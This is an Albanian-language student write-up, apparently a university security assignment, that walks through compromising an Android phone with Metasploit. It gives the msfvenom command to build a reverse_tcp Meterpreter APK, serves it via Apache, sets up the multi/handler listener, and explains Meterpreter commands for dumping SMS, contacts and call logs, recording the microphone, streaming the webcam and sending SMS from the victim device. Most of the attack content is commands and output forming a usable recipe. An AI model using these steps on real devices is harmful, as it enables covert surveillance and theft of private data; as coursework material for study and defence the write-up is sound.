



# Analiza e veglës Metasploit

| [Fatbardh Kadriu](https://github.com/FatbardhKadriu) | [Arbena Musa](https://github.com/ArbenaMusa) | [Albana Hysenaj](https://github.com/albanah) |
| ---------------------------------------------------- | -------------------------------------------- | -------------------------------------------- |

Ky punim është kryer në kuadër të detyrës së dytë në lëndën "Siguria e Informacionit" dhe shembujt e implementuar janë përdorur vetëm për qëllime edukative. Zhvillimi i shembujve të tillë pa dijeninë dhe miratimin e personave të përfshirë si viktima konsiderohet jolegale.

## Teknologjitë dhe pajisjet e përdorura

<ul>
<li>Pajisja kompjuterike (lokale) - sistemi operativ Kali Linux</li>
<li>Pajisje mobile (viktima) - sistemi operativ Android versioni 10</li>
<li>Metasploit Framework dhe MSFVenom</li>
</ul>

Për shkak që në shembullin e zhvilluar pajisja lokale dhe pajisja e viktimës duhet të jenë të kyçura në të njejtin rrjet (të jenë në të njejtin LAN) dhe përdoren IP-të private të tyre, nuk ka qenë i mundur përdorimi i makinave virtuale apo emulatorëve dhe janë përdorur pajisjet tona fizike duke mos cënuar pajisjet e përsonave të tjerë.

## Çfarë është Metasploit

Metasploit nuk është thjesht një vegël, por është një framework platformë e plotë që siguron librari të qëndrueshme dhe të besueshme për shfrytëzim të vazhdueshëm dhe ofron infrastrukturën e nevojshme përmes një mjedisi të plotë zhvillues për ndërtimin e veglave të reja dhe për automatizimin e çdo aspekti të penetration testing. Metasploit ofron më shumë se një interface në funksionalitetin e tij themelor, duke perfshirë console-ën, command line-in dhe graphical interface-in. Gjatë zhvillimit të shmbujve tonë me kemi përdorur MSFconsole.

MSFconsole deri më tani është pjesa më e njohur e Metasploit Framework. Është njëra nga veglat më fleksibile, të pasura me tipare dhe të mbështetura mirë në Framework-un. Msfconsole ofron një interface të gjithanshëm me pothuajse çdo mundësi dhe cilësi të disponueshme në Framework. Msfconsole mund të shfrytëzohet për të bërë gjithçka, duke përfshirë nisjen e një exploit, ngarkimin e moduleve ndihmëse, kryerjen e regjistrimit, krijimin e dëgjuesve, etj.

## Zhvillimi i eksperimentit

### Exploit

Exploit ekzekuton një sekuencë të komandave për të targetuar një dobësi specifike që është gjetur në një sistem ose aplikacion. Ky modul përfiton nga dobësia për të fituar çasje në sistemin/pajisjen e targetuar.
Hapi i parë është kërkimi për exploit adekuat për platformën android dhe përgjedhja e tij në mesin e shumë mundësive që ofrohen.

```
msf6 > search type:exploit platform:android

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   ........................................................................................................................
   10  exploit/multi/handler                                                      manual     No     Generic Payload Handler
   ........................................................................................................................
```

| Karakteristika  | Shpjegimi                                                                                                             |
| --------------- | --------------------------------------------------------------------------------------------------------------------- |
| Name            | emri i modulit                                                                                                        |
| Disclosure Date | Shpjegimi                                                                                                             |
| Rank            | e rendit ndikimin e mundshëm të shfrytëzimit në objektiv. Exploits janë të renditura nga ai me rëndësinë më të madhe. |
| Check           | Shpjegimi                                                                                                             |
| Description     | përfshin më shumë detaje në lidhje me cenueshmërinë e veçantë që moduli shfrytëzon.                                   |

Moduli i zgjedhur për exploit, `multi/handler` mundëson vendosjen e payloads të pavarur. Fajlli i infektuar që do të hapet nga ana e viktimës do të vendos komunimin me sulmuesin. Është e nevojshme që të ekzistoj një kontrollues i cili do të presë për lidhjen e vendosur kur komunikimi drejtohet nga viktima te sulmuesi.

### Payload

Payload është shell code që ekzekutohet pasi moduli exploti ta ketë komprementuar një sistem. Na mundëson të lidhemi me pajisjen e viktimës dhe ta përdorim atë si të tonën, pasi të kemi shfrytëzuar një cenueshmëri në sistemin e saj. Ajo na mundëson të definojmë se si duam të lidhemi me pajisjen e viktimës dhe çfarë duam të bëjmë me të në vazhdim. Metasploit ka shumë lloje të payloads që mund të përdoren për sistemin e targetuar.

Për të parë payloads që janë në dispozicion dhe për të listuar ata adekuat për platformën android kërkojmë:

```
msf6 > search type:payload platform:android

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   .............................................................................................................................
   2  payload/android/meterpreter/reverse_tcp                     normal  No     Android Meterpreter, Android Reverse TCP Stager
   .............................................................................................................................
```

Payload `android/meterpreter/reverse_tcp` përdoret për pajisjet android. Meterpreter është shkurtesë për meta interpreter që është një payload i fuqishëm dhe mund të mbuloj tërë funksionalitetin e një command shell. Punon me injektim të DLL fajlla dhe qëndron tërësisht në memorje, duke mos lënë asnjë gjurmë të ekzistencës së tij në hard drive ose folder. Ka një numër komandash dhe skriptash specifike të zhvilluara për të, duke na mundësuar që në masë të madhe të realizohen qëllimet tona në pajisjen e viktimës. Reverse_tcp nënkupton që përdoret meterpreter si reverse shell që është një shell në të cilin pajisja e targetuar si viktimë, komunikon përsëri mbrapsht me pajisjen sulmuese. Pajisja sulmuese cakton një port për dëgjim në të cilin pret lidhjen me viktimën dhe përmes përdorimit të të cilit realizohet ekzekutimi i komandave pasuese.


Android Meterpreter mundëson marrjen e informatave nga folderët e sistemit, përgjimin e thirrjeve telefonike, leximin dhe dërgimin e mesazheve, leximin e log të telefonatave, përdorimin e kamerave të pajisjes, etj.

### Krijimi i android aplikacionit të infektuar

Msfvenom iu shtua Metasploit-it në vitin 2011. Me lansimin e msfvenom funksionaliteti i msfpayload dhe msfencode janë kombinuar në një vegël të vetme. Për të krijuar një APK (Android Package) fajll të infektuar - për të gjeneruar një android/meterpreter/reverse_tcp payload që do të instalohet në pajisjen e viktimës, përmes msfvenom shkruajmë komandën:

```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.12 LPORT=4444 R > /root/Desktop/OurApp.apk
```

| Shkurtesa                  | Shpjegimi                                                            |
| -------------------------- | -------------------------------------------------------------------- |
| -p                         | specifikon llojin e payload që përdoret                              |
| LHOST IP                   | adresa e pajisjes e cila do të përdoret për të pritur lidhjen prapa  |
| LPORT                      | porti i pajisjes që do të presë për komunikim me pajisjen e viktimës |
| R                          | raw format                                                           |
| > /root/Desktop/OurApp.apk | lokacioni ku ruhet APK aplikacioni i krijuar                         |



### Kalimi i aplikacionit të infektuar tek pajisja e targetuar

Për shkak që shumica e platformave online e detektojnë një fajll i cili ka përmajtje kërcënuese për sigurinë, kalimin e fajllit të infektuar nga sulmuesi tek viktima e bëjmë përmes web serverit të apache në linux. Sulmuesi e vendos fajllin e infetuar në lokacionin `/var/www/html/` dhe pajisja e viktimës duhet u çasur në browser në IP adresën e sulmuesit mund të gjej aplikacionin dhe ta instaloj. Komandat për ta startuar apache serverin janë:

```
$ service apache2 start
$ service apache2 status
```


|  |  |
| --------------------------------------------------------------------- | --------------------------------------------------------------------- |

### Shfrytëzimi i pajisjes së targetuar

Shembulli jonë e përdorë modulin exploit/multi/handler duke specifikuar payload, hostin i cili pret kthimin e lidhjes prapa dhe portin në të cilin dëgjohet lidhja. Komanda exploit fillon kërkimin e dobësive dhe në momentin që vendoset lidhja me aplikacionin e infektuar hapet meterpreter dhe nga aty e tutje mund të manipulohet pajisja e viktimës.

```
msf6 > use exploit/multi/handler

msf6 > set PAYLOAD android/meterpreter/reverse_tcp

msf6 > set LHOST 192.168.0.12

msf6 > set LPORT 4444

msf6 > exploit
```


Sapo viktima ta ketë instaluar aplikacionin e infektuar dhe të tentojë ta hapë, krijohet një session në meterpreter.

## Komandat e Meterpreter

### Komandat kryesore

```
Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background

```

#### background dhe bg

Background e kalon lidhjen (sesionin) e krijuar nga payload me viktimën aktuale në prapavijë dhe mundëson që të ekzekutohen komanda të tjera në msfconsole. bg është shkurtesa për background. Për t'iu rikthyer një sesion që është krijuar më herët në msfconsole ekzekutohen komandat si në vijim

- `sessions` - shfaq listën e të gjithë sesioneve aktivë.
- `sessions -i <numri i session>` - e merr nga prapavija sesionin e caktuar në bazë të numrit të specifikuar dhe kalon në meterpreter shell për atë sesion.


### Komandat e file sistemit

```
Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    pwd           Print working directory
    search        Search for files
```

#### cat

`cat` është komand e cila shfaq në ekran përmbajtjen e një fajlli. Shkruhet njejtë si kur përdoret për leximin e fajllave të pajisjes sulmuese e si të pajisjes së viktimës.

#### cd dhe lcd

`cd` (change directory) mundëson navigimin në folderët ruajtuar në pajisjen e viktimës (kalimin nga një folder në tjetrin), ndërsa lcd mundëson navigimin në folderët e ruajtur në pajisjen sulmuese.

#### ls dhe lls

`ls` (list) printon të gjithë përmbajtjen e lokacionit aktual tek pajisja e viktimës, ndërsa lls printon të gjithë përmbajtjen e lokacionit aktual tek pajisja e sulmuesit.

#### pwd dhe lpwd

`pwd` (print working directory) tregon lokacionin e folderit aktual në pajisjen e viktimës, ndërsa lpwd tregon lokacionin e folderit aktual në pajisjes e sulmuesit.


#### search

`search` kërkon fajlla të caktuar në tërë memorien e pajisjes së kompromentuar përderisa nuk ceket ndonjë pjesë specifike brenda folderëve.

- `-d` specifikon folderin në të cilin kërkohet
- `-f` pattern i cili kërkohet
- `-r` kërkimi rekurzis nëpër folderët mbrenda folderit të cekur.

Meqë kërkimi i fajllave në tërë hapsirën memorike të pajisjes së komprementuar është i kushtueshëm në kohë dhe përdoruesi i saj mund ta vërejë mbingarkesën, sygjerohet që kur kërkohet të specifikohet një pjesë e caktuar e memories për të reduktuar kohën e kërkimit.


### Komandat e rrjetit

```
Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    ifconfig      Display interfaces
    ipconfig      Display interfaces
```

#### ifconfig dhe ipconfig

`ifconfig` dhe `ipconfig` shfaqin ndërfaqen e rrjetit në të cilin është e kyçur pajisja sulmuese dhe pajisja e komprementuar.


### Komandat e sistemit

```
Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    getuid        Get the user that the server is running as
    localtime     Displays the target system local date and time
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS
```

#### getuid

`getuid` tregon id e përdoruesit i cili është duke u përdorur në pajisjen sulmuese.

#### localtime

`localtime` tregon kohën lokale të pajisjes.

#### shell

`shell` hap një shell standard për sistemin e pajisjes së targetuar.

#### sysinfo

`sysinfo` shfaq të dhënat e sistemit duke përfshirë pikën e dëgjimit tek sulmuesi, sistemin operativ të pajisjes së komprementuar dhe llojin e meterpreter.


### Komandat e kamerës

```
Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam
```

#### record_mic

`record_mic` inçizon zërin duke përdorur mikrofonin e pajisjes së komprementuar dhe duke e ruajtur në audio fajll me prapashtesën .wav, në pajisjen sulmuese. Kjo komand mund të përdoret për përgjimin e zhurmave të ambientit në kohë reale.

- `-d` numri i sekondave sa zgjat inçizimi (paraprakisht është i caktuar si 1)
- `-f` lokacioni ku ruhet audio fajlli.
- `-p` luan automatikisht audio fajllin e inçizuar (paraprakisht është e caktuar si true)


#### webcam_list

`webcam_list` liston të gjitha kamerat që i posedon pajisja e komprementuar dhe poashtu i identifikon ato me numra përkatës.

#### webcam_snap

`webcam_snap` shkrep një foto nga pajisja e komprementuar, varësisht se cila kamerë e saj specifikohet. Kjo komandë mundëson të fitohen njohuri për ambientin në të cilin gjendet pajisja dhe rrethinën e saj.

- `-i` specifikon numrin identifikues të kamerës e cila përdoret.


#### webcam_stream

`webcam_stream` përdorë kamerën e pajisjes së komprementuar për të pasur qasje të vazhdueshme në kohë reale të pamjes nga kamera (live streaming).

- `-i` specifikon numrin identifikues të kamerës e cila përdoret.


### Komandat e androidit

```
Android Commands
================

    Command           Description
    -------           -----------
    check_root        Check if device is rooted
    dump_calllog      Get call log
    dump_contacts     Get contacts list
    dump_sms          Get sms messages
    send_sms          Sends SMS from target session
    set_audio_mode    Set Ringer Mode
```

#### check_root

`check_root`

#### dump_calllog

`dump_calllog` nxjerr listën e të gjitha telefonatave të zhvilluara nga pajisja e komprementuar dhe e ruan atë në një tekst fajll duke specifikuar detajet e secilës thirrje.


#### dump_contacts

`dump_contacts` nxjerr listën e të gjitha kontakteve të regjistruara në pajisjen e komprementuar dhe e ruan atë në një tekst fajll duke specifikuar detajet e secilit kontakt.

#### dump_sms

`dump_sms` nxjerr listë e sms-ëve të shkëmbyer nga pajisja e komprementuar dhe e ruan atë në një tekst fajll duke specifikuar detajet e secilit sms.


#### send_sms

`send_sms` dërgon sms nga pajisja e komprementuar tek një destinacion i caktuar me tekstin që specifikohet.

- `-d` specifikon numrin telefonik tek i cili do të dërgohet mesazhi
- `-t` specifikon përmbajtjen tekstuale të mesazhit që do të dërgohet

|  |  |
| --------------------------------------------------- | ---------------------------------------------------- |

#### set_audio_mode

`set_audio_mode` ndërron gjendjen e audios së pajisjes.

- `-m` specifikon modin në të cilin vendoset pajisja

  - 0 - silent
  - 1 - normal
  - 2 - hight

|  |  |
| ---------------------------------------------- | ------------------------------------------------ |

### Komandat për kontrollimin e aplikacioneve

```
Application Controller Commands
===============================

    Command        Description
    -------        -----------
    app_list       Liston t
    app_run        Start Main Activty for package name
    app_uninstall  Request to uninstall application
```

#### app_list

`app_list` printon listën e të gjitha aplikacioneve të instaluara në pajisjen e komprementuar dhe të dhvnat e tyre.

#### app_run

`app_run` hap një aplikacion të caktuar që është i instaluar tek pajisja e komprementuar varësisht se cilin e zgjedhim.

|  |  |
| ------------------------------------------------------------------------- | --------------------------------------------------------------------------- |

#### app_unisntall

`app_uninstall` shfaq dialogun për të fshirë një aplikacion të pajisjes.

|  |  |
| --------------------------------------------------------------------------- | --------------------------------------------------------------------------- |
